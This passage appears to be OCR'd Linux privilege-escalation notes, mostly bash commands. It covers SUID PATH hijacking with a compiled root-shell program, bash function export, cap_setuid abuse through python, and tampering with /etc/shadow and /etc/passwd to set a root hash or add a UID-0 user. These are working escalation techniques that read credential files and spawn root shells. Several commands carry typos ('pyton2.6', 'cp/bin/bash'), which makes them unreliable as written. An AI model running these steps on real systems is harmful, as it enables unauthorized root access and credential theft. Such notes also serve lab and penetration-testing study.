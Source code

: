 ```bash
env  # Show environment variables
find / type -f -perm -04000 -ls 2>/dev/null
# Search on binaries from this output using strings

# Example 1
strings /usr/local/bin/suid-env
# Look for commands that do not use absolute path i.e. service apache2 start
# We can create a malicious file called serivce and update the PATH to find it first
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' >/tmp/service.c
gcc /tmp/service.c -o /tmp/service  # Compile malicious service script
export PATH=/tmp:$PATH  # Put /tmp at the beginning of the PATH
/usr/local/bin/suid-env

# Example 2
strings /usr/local/bin/suid-env2
# Command now does seem to use absolute path i.e. /usr/sbin/service apache2 start
function /usr/sbin/service() { cp/bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```

### Capabilities

```bash
getcap -r / 2>/dev/null
# Looking for cap_setuid+ep, specifically the ep
/usr/bin/pyton2.6 = cap_setuid+ep
# Exploit
/usr/bin/pyton2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Weak File Permissions

#### /etc/shadow

```bash
# Verify permissions
ls -la /etc/shadow
# If the file is readable, hash cracking can be attempted
john/hashcat
# If the file is writable, the root user's password hash can be replaced
mkpasswd -m sha-512 newpassword  # Generate new password hash.
# Backup shadow file and replace root user password hash with the new one
```

#### /etc/passwd

```bash
# Verify permissions
ls -la /etc/passwd
# If the file is writable, replace the second field with a hash overriding shadow
openssl passwd "password"  # Generate new passowrd hash.
# If the file can only be appeneded to, create new user with root user ID (0)
newroot:<password-hash>:0:0:root:/root:/bin/bash
```
